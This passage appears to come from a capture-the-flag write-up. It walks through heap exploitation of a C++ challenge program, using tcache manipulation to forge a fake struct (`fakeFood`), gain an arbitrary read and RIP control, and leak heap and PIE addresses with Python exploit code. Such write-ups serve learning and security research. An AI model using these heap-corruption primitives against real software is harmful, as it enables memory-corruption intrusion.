 ```python
if typ: tmp.name_.p = alloc(name.size()+1) # store copy of string
if is_new: malloc(48) # allocate space for map
if not is_new and foods[idx].name_.capacity > 0xf: free(foods[idx].name_.p)
if typ: free(backing_store)
if not is_new: free(foods[idx])
foods[idx] = tmp
```

I do _even more experiments_, and I hit a good solution:

1. Make sure the tcache is empty; it's LIFO.
2. create a new `unique_ptr` at `foods[idx]`, where `foods[idx]` has never been allocated before. Ensure that `name.size() > 0x28` to keep `tcache[size=0x30]` empty.
3. favorite `foods[idx]`; repeat step 2. `tcache[size=0x30]` should _only_ contain `favorites` now.
4. create a new `unique_ptr` at `foods[nidx]`, where `foods[nidx]` has never been allocated before, and `name.size()` lies within [0x10, 0x18).
5. If `foods[nidx]` was a Bamboo<sup>5</sup>, `favorites` remains at the top of `tcache[size=0x30]`, and step 4 should be repeated. Otherwise, `favorites` was overwritten with the `name` from step 4.
   `favorites` has a `(1/2)**i` chance of being overwritten correctly, where `i` is the number of times step 4 happens. 

Programmatically:

```python
def fakeFood(payload: bytes) -> int:
    '''creates a fake Food struct containing `payload` at a random `idx`, stored as favorite. returns idx'''
    idx = randint(100,1<<30)
    alloc(idx, b'b'*60)
    fav(idx)
    alloc(idx, b'b'*60)
    for i in range(10): alloc(idx+i+1, payload[:0x17].ljust(0x17, b'\0'))
    return idx
```

This works reliably (1/1024 failure rate), so long as `payload` contains no whitespace (~1/15 failure rate). Right now, I have:

1. a reliable exploit that produces an arbitrary read, as well as RIP control.
2. a reliable heap pointer leak

Can I finish the challenge? Maybe.

### Exploitation minutiae

First of all, I need to figure out the offsets to get from leak-to-leak. The heap base is easy to figure out:

```python
heapbase = (heapleak>>12)<<12
```

But what do you do with that? I need to find the location of an active `struct Food` in memory for leaking, so I search for it:

```python
def leak(addr: int, sz: int=8): # leak the first `sz` bytes from `addr`
    fakeFood(fit({8:addr,0x10:sz+8}))
    return unpack(printName()[:sz],'all')
alloc(1, b'a'*7)
search_str = b'\0%s\0' % (b'a'*7)
foods1_offset = next(i for i in range(0,99999,0x1000) if search_str in (dat := pack(leak(heapbase+i,0x1000),'all')))
foods1_offset+= dat.index(search_str)-0x17 # -0x17 because that's the distance from this string to the _vtable.
PIE_leak = leak(heapbase+foods1_offset) # this is a leak of `food[idx]->_vtable`. 
```
